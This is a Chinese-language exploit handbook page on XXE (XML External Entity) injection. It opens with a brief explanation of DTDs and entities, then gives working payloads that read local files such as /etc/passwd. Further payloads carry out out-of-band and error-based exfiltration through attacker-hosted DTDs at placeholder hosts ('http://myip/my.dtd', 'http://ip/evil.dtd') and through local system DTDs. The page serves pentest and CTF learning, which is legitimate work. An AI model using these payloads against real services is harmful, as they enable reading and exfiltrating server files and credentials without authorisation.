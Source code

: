 # EXP手册-XXE Injecton(XML External Entity Injection)
## 基础知识
### 概念
XXE(XML External Entity),即是XML外部实体注入攻击.漏洞是在对不安全的外部实体数据进行处理时引发的安全问题。   
关键在DTD的引用。   
```
\\实例代码
<?xml version="1.0"?>//这一行是 XML 文档定义
<!DOCTYPE message [
<!ELEMENT message (receiver ,sender ,header ,msg)>
<!ELEMENT receiver (#PCDATA)>
<!ELEMENT sender (#PCDATA)>
<!ELEMENT header (#PCDATA)>
<!ELEMENT msg (#PCDATA)>
```
DTD(The document type definition)，即是文档类型定义，可定义合法的XML文档构建模块。它使用一系列合法的元素来定义文档的结构。DTD 可被成行地声明于 XML 文档中，也可作为一个外部引用。   
```
<!ENTITY 实体名 SYSTEM url > //外部实体
<!ENTITY 实体名 实体的值 > //内部实体
```
用 &实体名; 引用的实体   
用 % 实体名，引用参数实体，只能在 DTD 中使用 %实体名;

### 读取文件有异常字符报错
有些内容可能不想让解析引擎解析执行，而是当做原始的内容处理，用于把整段数据解析为纯字符数据而不是标记的情况包含大量的 <> & 或者
" 字符，CDATA节中的所有字符都会被当做元素字符数据的常量部分，而不是 xml标记   
```
<![CDATA[
XXXXXXXXXXXXXXXXX
]]>
```
#### Payload
evil.dtd
```
<?xml version="1.0" encoding="UTF-8"?> 
<!ENTITY all "%start;%goodies;%end;">
```
注入内容：   
```
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE roottag [
<!ENTITY % start "<![CDATA[">   
  <!ENTITY % goodies SYSTEM "file:///d:/test.txt">  
<!ENTITY % end "]]>">  
<!ENTITY % dtd SYSTEM "http://ip/evil.dtd"> 
%dtd; ]> 

<roottag>&all;</roottag>
```
可以输入任意字符除了 ]]> 不能嵌套   
用处是万一某个标签内容包含特殊字符或者不确定字符，我们可以用 CDATA包起来    
### 入门：  
- [一篇文章带你深入理解漏洞之 XXE 漏洞](https://xz.aliyun.com/t/3357)    
- [XML external entity (XXE) injection](https://portswigger.net/web-security/xxe)
![](https://raw.githubusercontent.com/ReAbout/web-exp/master/images/xxe-injection.svg?sanitize=true)    
## XXE漏洞利用
前提条件：允许外部实体引用。   
按服务端语言有PHP、JAVA、JAVA(Android)一般解析函数都是默认不开启的、Python、libxml。   
漏洞利用方法分：   
- 回显读取文件   
- 不带回显读取文件-OOB(Out of Band）    
- 报错回显读取文件-XXE Base Error   
- 远程执行   
### 0x01回显读取文件
#### payload   
```
<?xml version=”1.0″ encoding=”utf-8″?>

<!DOCTYPE XXE [
<!ELEMENT name ANY >
<!ENTITY XXE SYSTEM "file:///etc/passwd" >]>

<root>
  <name>&XXE;</name>
</root>
```
### 0x02不带回显读取文件-OOB(Out of Band）   
>
OOB XXE 需要使用到DTD约束自定义实体中的参数实体。参数实体是只能在DTD中定义和使用的实体，以 %为标志定义，定义和使用方法如下    
```
<?xml version="1.0"?>
<!DOCTYPE message [
    <!ENTITY normal "hello">  <!-- 内部普通实体 -->
    <!ENTITY normal SYSTEM "http://xml.org/hhh.dtd">  <!-- 外部普通实体 -->
    <!ENTITY % para SYSTEM "file:///1234.dtd">  <!-- 外部参数实体 -->
    %para;            <!-- 引用参数实体 -->
]>
```
而且参数实体还能嵌套定义，但需要注意的是，内层的定义的参数实体% 需要进行HTML转义，否则会出现解析错误。   
```
<?xml version="1.0"?>
<!DOCTYPE test [
    <!ENTITY % outside '<!ENTITY &#x25; files SYSTEM "file:///etc/passwd">'>
]>
```
禁止调用同级实体，无法直接读取文件数据通过http回传我们的服务器，所以要用外部实体才能读取数据。     

#### Payload1：    
my.dtd放于自己服务器的外部实体：   
```
<!ENTITY % start "<!ENTITY &#x25; send SYSTEM 'http://myip/?%file;'>">
%start;
```
注入的内容：   
```
<?xml version="1.0"?>
<!DOCTYPE message [
    <!ENTITY % remote SYSTEM "http://myip/my.dtd">  //调用我们的dtd
    <!ENTITY % file SYSTEM "file:///flag">
    %remote;
    %send;
]>
```
#### Payload2:  
这里已经是三层参数实体嵌套了，第二层嵌套时我们只需要给定义参数实体的%编码，第三层就需要在第二层的基础上将所有%、&、’、” html编码    
ubuntu系统自带的/usr/share/yelp/dtd/docbookx.dtd 包含%ISOamso       
```
<?xml version="1.0"?>
<!DOCTYPE message [
    <!ENTITY % remote SYSTEM "/usr/share/yelp/dtd/docbookx.dtd">
    <!ENTITY % file SYSTEM "file:///flag">
    <!ENTITY % ISOamso '
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; send SYSTEM &#x27;http://myip/?&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;send;
    '> 
    %remote;
]>
```

### 0x03报错回显读取文件-XXE Base Error 
基于报错的原理和OOB类似，OOB通过构造一个带外的url将数据带出，而基于报错是构造一个错误的url并将泄露文件内容放在url中，通过这样的方式返回数据。   
#### Payload1：    
my.dtd放于自己服务器的外部实体：   
```
<!ENTITY % start "<!ENTITY &#x25; send SYSTEM 'file:///re.about/%file;'>">
%start;
```
注入的内容：   
```
<?xml version="1.0"?>
<!DOCTYPE message [
    <!ENTITY % remote SYSTEM "http://myip/my.dtd">
    <!ENTITY % file SYSTEM "file:///flag">
    %remote;
    %send;
]>
```
#### Payload2:  
这里已经是三层参数实体嵌套了，第二层嵌套时我们只需要给定义参数实体的%编码，第三层就需要在第二层的基础上将所有%、&、’、” html编码    
ubuntu系统自带的/usr/share/yelp/dtd/docbookx.dtd 包含%ISOamso       
```
<?xml version="1.0"?>
<!DOCTYPE message [
    <!ENTITY % remote SYSTEM "/usr/share/yelp/dtd/docbookx.dtd">
    <!ENTITY % file SYSTEM "file:///flag">
    <!ENTITY % ISOamso '
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; send SYSTEM &#x27;file://re.about/?&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;send;
    '> 
    %remote;
]>
```
#### Payload3；
有时候不引用外部DTD也可，原因在于代码实现3层嵌套下未严格执行标准。   
```
<?xml version="1.0"?>
<!DOCTYPE message [
    <!ELEMENT message ANY>
    <!ENTITY % para1 SYSTEM "file:///flag">
    <!ENTITY % para '
        <!ENTITY &#x25; para2 "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///&#x25;para1;&#x27;>">
        &#x25;para2;
    '>
    %para;
]>
```
### Reference

[Exploiting XXE with local DTD files](https://mohemiv.com/all/exploiting-xxe-with-local-dtd-files/)   
[Blind XXE详解与Google CTF一道题分析](https://www.freebuf.com/vuls/207639.html)  

